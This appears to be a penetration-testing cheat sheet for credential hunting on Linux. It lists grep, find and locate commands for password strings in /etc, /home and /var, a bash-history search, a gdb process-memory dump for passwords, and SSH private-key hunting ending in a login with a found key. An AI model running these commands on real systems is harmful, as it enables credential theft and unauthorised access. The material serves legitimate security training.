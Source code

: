 #### Grep & Find
```bash - linux
grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/etc' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/etc' -ie "PASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/etc' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /etc

```bash - linux
grep --color=auto -rnw '/home' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/home' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/home' -ie "PASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/home' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /home

```bash - linux
grep --color=auto -rnw '/var' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/var' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/var' -ie "PASS" --color=always 2> /dev/null
```

```bash - linux
grep --color=auto -rnw '/var' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /var

Using Find:
```bash - linux
find /etc -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - linux
find /etc -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - linux
find /etc -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - linux
find /etc -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /etc

```bash - linux
find /home -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - linux
find /home -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - linux
find /home -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - linux
find /home -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /home

```bash - linux
find /var -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - linux
find /var -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - linux
find /var -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - linux
find /var -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /var

Locate in file names:
```bash - linux
locate password | more
```

grep in bash history:
```bash - linux
cat /home/user/.bash_history | grep -i "password"
```

#### Extracting passwords from memory (Privilege Escalation Techniques)
```
ps -ef
```

```
ps -ef | grep $SERVICE_NAME
```

```
gdb -p $PID
```

```
info proc mappings
```

```
dump memory $OUTPUT_FILE $START_ADDRESS $STOP_ADDRESS
```

```
strings /<OUTPUT_FILE> | grep passw
```

#### SSH Key Hunting
```bash - linux
find / -iname authorized_keys 2> /dev/null
```

```bash - linux
find / -iname id_rsa 2> /dev/null
```

>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjE...4WBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

Save found key into KALI file

```bash - kali
mousepad id_rsa
```

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


